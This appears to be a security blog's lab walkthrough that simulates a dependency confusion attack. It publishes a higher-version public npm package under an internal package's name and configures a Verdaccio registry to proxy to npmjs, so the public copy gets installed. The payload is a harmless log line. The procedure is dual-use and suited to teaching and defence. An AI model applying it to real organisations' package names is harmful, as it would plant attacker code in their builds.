

# Attack Simulation - Dependency Confusion Attack

## Introduction

In my previous post - [Dependency Confusion Attack - Deep Dive & Attack Techniques](https://onemorelens.co.in/posts/Supply-Chain-Security/15-04-2026-dependency-confusion-attack.html), I covered the theory behind dependency confusion attacks-how modern package managers can unintentionally pull malicious code from public registries. That discussion stayed at a conceptual level.

In this lab, I wanted to go one level deeper and actually observe the behavior in a controlled setup. Instead of just understanding what happens, the goal here is to see how it happens in a system that closely resembles a real enterprise environment.

At a high level, we are going to simulate a situation where an application depends on an internal package, but due to registry configuration and version mismatch, a malicious package from a public registry gets installed and executed.



## What We Are Building

To make this realistic, I recreated a common enterprise pattern:

- An application that depends on an internal package  
- A private registry acting as the internal source of truth  
- The same package name published publicly with a higher version  
- The private registry configured to proxy requests to the public registry  

The key condition we will trigger is simple:

> The application requests a version that does not exist internally, and the registry silently falls back to the public source.

That is where the attack happens.

## Prerequisites

Before starting, here is what I used and why each component is important:

- Node.js and npm  
  These form the ecosystem where dependency resolution happens.

- Verdaccio  
  This acts as a private registry, similar to tools like Nexus or Artifactory used in enterprises.

- npmjs account  
  Required to publish the malicious package to the public registry.

## Creating the Victim Application

I started by creating a minimal Node.js application. The purpose of this application is simply to depend on a package and execute it.

```bash
mkdir my-app
cd my-app
npm init -y
```

Then I created a simple entry file ```index.js```

```js
const utils = require("onemorelens-utils");

utils();
```

At this point, the application assumes that a package named `onemorelens-utils` exists somewhere in its configured registry.

## Creating the Internal Package

Next, I created the internal version of this package. This represents what a company would normally host in its private registry.

```bash
mkdir internal-package
cd internal-package
npm init -y
```

The package was defined as:

```json
{
  "name": "onemorelens-utils",
  "version": "1.0.0",
  "main": "index.js"
}
```

And the implementation:

```js
module.exports = () => {
  console.log("Internal package v1.0.0");
};
```

## Setting Up the Private Registry

To simulate an enterprise environment, I used Verdaccio as a private registry.

```bash
verdaccio
```

By default, it runs on ```http://localhost:4873```

Then I configured npm to use this registry:

```bash
npm set registry http://localhost:4873
```

After authenticating, I published the internal package:

```bash
npm adduser --registry http://localhost:4873
npm publish --registry http://localhost:4873
```

At this point, the internal package is available in the private registry.

## Creating the Malicious Package

Now comes the attacker-controlled part.

I switched back to the public registry:

```bash
npm set registry https://registry.npmjs.org/
npm login
```

Then created a package with the **same name but higher version**:

```json
{
  "name": "onemorelens-utils",
  "version": "1.1.0",
  "main": "index.js"
}
```

The code inside it:

```js
console.log("Malicious code executed");

module.exports = () => {
  console.log("Looks normal");
};
```

Finally, I published it:

```bash
npm publish
```

This package is now available publicly and appears more recent than the internal version.

## Configuring Upstream Proxy (Critical Step)

This is what makes the setup realistic.

In many organizations, private registries are configured to fetch packages from public sources if they are not found internally.

In Verdaccio, this is controlled via the configuration:

```yaml
uplinks:
  npmjs:
    url: https://registry.npmjs.org/

packages:
  '**':
    access: $all
    publish: $authenticated
    proxy: npmjs
```

This means:

1. Check internal storage first  
2. If the required version is not found, forward the request to npmjs  

## Triggering the Attack

Back in our victim application, I updated the dependency to explicitly request a version that does not exist internally:

```json
"dependencies": {
  "onemorelens-utils": "1.1.0"
}
```

Notice the mismatch:

- Internal registry has version `1.0.0`  
- Application is requesting `1.1.0`  

Then I performed a clean install:

```bash
rm -rf node_modules package-lock.json
npm install
```

## Observing the Behavior

Here is what happens under the hood:

1. The application requests version `1.1.0`  
2. Verdaccio checks internal storage - not found  
3. Verdaccio forwards the request to npmjs  
4. npmjs returns the malicious package  
5. The package gets installed  

Running the application:

```bash
node index.js
```

Produces:

```
Malicious code executed
Looks normal
```

## What Just Happened?

This was not a simple “install from public registry” scenario.

This was a **trusted internal system** silently pulling code from an external source because of:

- Version mismatch  
- Upstream proxy configuration  
- Lack of strict isolation  

The application believed it was using an internal dependency, but ended up executing attacker-controlled code.

## Key Takeaway

The core issue is not just dependency management-it is **implicit trust boundaries**.

Once a private registry is allowed to proxy to public sources, any mismatch or misconfiguration can introduce untrusted code into the system.

That is where dependency confusion becomes dangerous.

## Lab Repository

https://github.com/Dhananjay-B/dependency-confusion-attack-lab